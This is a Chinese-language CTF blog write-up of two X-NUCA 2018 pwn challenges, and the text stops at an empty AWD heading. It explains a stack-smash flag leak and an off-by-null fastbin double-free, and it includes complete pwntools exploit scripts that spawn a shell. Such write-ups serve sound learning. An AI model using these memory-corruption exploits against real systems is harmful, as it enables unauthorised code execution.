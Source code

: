title: X-NUCA 2018个人赛/决赛PWN
date: 1970-1-1
categories:
- PWN
---

终于熬过考试周了...重装电脑加上配虚拟机博客环境前后花了快两天.寒假整理一下以前的题目吧,先是12月初的XNUCA总决赛和铁三总决赛.

# 个人赛

## PWN0(18solve)

- 个人赛签到题,一个gets栈溢出,有canary,只有一次输入机会,显然不是ROP的打法,flag在内存中,先让我们输入小于flag长度的任意字符,输入回车结束
- 这里利用stack smash,当canary存在时,如果发生栈溢出,程序会执行如下代码:

```c
__libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
```

- 因为flag在内存中,所以我们可以算出输入点和__libc_argv[0],也就是程序名称的偏移,填充后写入一根指针,利用报错信息打印flag,由于内存映射机制,所以程序中有时候会存在两个flag

```python
from pwn import *
r = process("./catch_me")
# for i in range(24):
r = remote("172.19.8.82",9999)
r.recvuntil("flag:")
r.sendline("")
payload = "a" * (0x7fffffffdf38 - 0x7fffffffde10) + p64(0x600CA0)
r.recvuntil("sure?")
r.sendline(payload)
r.recvuntil(": ")
flag = r.recv(32)
print flag
```

- 当时因为是给了一台内网的机器,没有pwntools,最后用的socket写的脚本,后来才知道有一个单文件库zio可以直接复制进去用.
- 然后并没有给pwn题的服务器和端口,最后只能用nmap扫描端口逐一nc来确定题目XD

## PWN1(10solve)

- 这就是一个堆题了,记得当时有几个师傅做的也非常快
- 扫一遍功能switch,发现有两个后门!输入1234和输入2333的时候会分别出发,1234就是一个malloc(0x20)然后向里面和bss段分别读入0x20,2333则是system(command),很明显这是要修改command为/bin/sh
- 分别查看几个基础功能函数,发现在new时,存在一个`scanf("%32s",ptr)`,也就是这里存在了一个off-by-null,scanf函数自动补的0使得当输入恰好为32位的时候,会有33位被赋值.
- 后面的功能函数则是才用了read函数,不存在溢出,在free处,也有对应的inuse数组作为防止double-free的保护,整理结构体发现

```c
typedef struct node{
    char content[32];
    char * nameptr;
};
```

- 也就是content刚好可以盖到nameptr指针,使得低位变成0,加上后门1234的偏移刚好可以获得指向相同堆块的指针,一发double解决,还要注意的是fastbin的验证条件.

```python
from pwn import *

r = process("./note")

def sa(a,b):
    r.sendlineafter(a,b)

def add(name,content):
    sa("command:\n","1")
    sa("name:",name)
    sa("content:",content)

def edit(index,name,content):
    sa("command:\n","2")
    sa("edit\n",str(index))
    sa("name:\n",name)
    sa("content:\n",content)

def show(index):
    sa("command:\n","3")
    sa("view",str(index))

def free(index):
    sa("command:\n","4")
    sa("id:",str(index))

def backdoor1(name,content):
    sa("command:\n","1234")
    sa("name:",name)
    sa("content:\n",content)

def getshell():
    sa("command:\n","2333")

def exp():
    backdoor1("backdoor","flagflag")
    add("name","0")
    add("name","1")
    add("name","2")
    add("name","3")
    add("name","4")
    add("name","5")
    add("name","6")
    add("name","7"*0x20)
    free(7)
    free(5)
    free(6)
    
    add(p64(0x602090-0x8),"fff")
    add("lll","lll")
    add("aaa","a")
    add("/bin/sh\x00","ggg")
    getshell()
    r.interactive()
    #add("name","/bin/sh\x00")
    # gdb.attach(r)
    

if __name__ == "__main__":
    sa("Please leave your name :",p64(0x21))
    exp()
```

# AWD

## pwn1